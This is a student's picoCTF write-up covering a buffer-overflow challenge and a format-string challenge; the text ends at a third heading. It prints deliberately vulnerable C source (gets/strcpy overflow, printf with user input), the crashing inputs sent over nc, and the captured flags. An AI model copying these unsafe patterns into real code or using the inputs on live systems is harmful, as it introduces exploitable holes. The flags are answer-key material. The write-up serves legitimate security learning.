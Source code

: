 # buffer overflow 0
To solve this challenge, we had to create a buffer overflow condition so that we could get the flag back. 

## Solution 
To solve this challenge, I followed the steps as listed below: 
- I first read through the code that we found in the challenge, and I tried understanding it. Did not understand the signal part, but rest of it was easy C code so I understood it fairly quickly.
- Next what I did was read through the hints provided in the challenge, and in that I got a hint to read the `BUGS` section of the `gets()` function. Following this hint, I found the official website where CWE-242 was shown. Reading through this page, I realised that basically `gets()` does not have a limit on how many characters I can enter and hence, causes a overflow.
![Website with Demonstrative Example of overflow in gets()]()  
- So I re-read the code to understand what was happening and I learned that I simply had to put a string with greater than 16 characters to get the answer. This gave me the flag as shown below:
```bash
15:32:07 ishaan-mishra@ishaan-mishra-Lenovo-G505s ~/Downloads  → cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
15:32:13 ishaan-mishra@ishaan-mishra-Lenovo-G505s ~/Downloads  → man gets
15:36:22 ishaan-mishra@ishaan-mishra-Lenovo-G505s ~/Downloads  → nc saturn.picoctf.net 54856
Input: ahgfjasj gae hasdhf isadufmasl jahslc naecu gjh aks;ilhfjacdkfhsakh^[l^[g^[jadjlg
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}


^Z
[1]+  Stopped                 nc saturn.picoctf.net 54856
15:40:43 ishaan-mishra@ishaan-mishra-Lenovo-G505s ~/Downloads  → 
```

 ## Flag

 `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}` 

 ## References
 - https://play.picoctf.org/practice?page=1&search=buffer%20overflow
 - https://cwe.mitre.org/data/definitions/242.html
 - manpage of `gets()`
-------------------------------------------------------------------------------------------------------------------------------------
# Format String 0 
To solve this challenge, we had to use our knowledge of format strings to get to the flag. 

## Solution 
This was a pretty easy solution without much thinking needed. I simply followed the steps as below to get the flag: 
- I first read through the source code to understand what it did. Again, the signal part was confusing, but rest everything was pretty simple to grasp. I understood that we had to use the options on the menu to cause the system to break.
- Reading the hints confirmed this, as the second hint said that you need to try different options. So choosing the strings at random, I got the flag.
```bash
15:47:39 ishaan-mishra@ishaan-mishra-Lenovo-G505s ~/Downloads  → cat * 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
15:47:51 ishaan-mishra@ishaan-mishra-Lenovo-G505s ~/Downloads  → nc mimas.picoctf.net 50686
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
^Z
[2]+  Stopped                 nc mimas.picoctf.net 50686
15:51:21 ishaan-mishra@ishaan-mishra-Lenovo-G505s ~/Downloads  → 
````

## Flag 

`picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}`


## References
- https://play.picoctf.org/practice/challenge/433?page=1&search=Format%20String
- Common sense :)
------------------------------------------------------------------------------------------------------------------------------------------
# clutter overflow 
